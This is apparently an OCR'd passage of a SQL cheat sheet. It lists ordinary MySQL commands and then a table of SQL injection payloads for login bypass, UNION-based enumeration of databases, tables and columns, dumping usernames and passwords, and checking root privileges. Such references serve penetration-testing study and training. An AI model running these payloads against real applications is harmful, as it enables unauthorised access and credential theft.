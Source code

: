 | `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| **Output** |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

#### MySQL Operator Precedence

* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

#### SQL Injection

| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |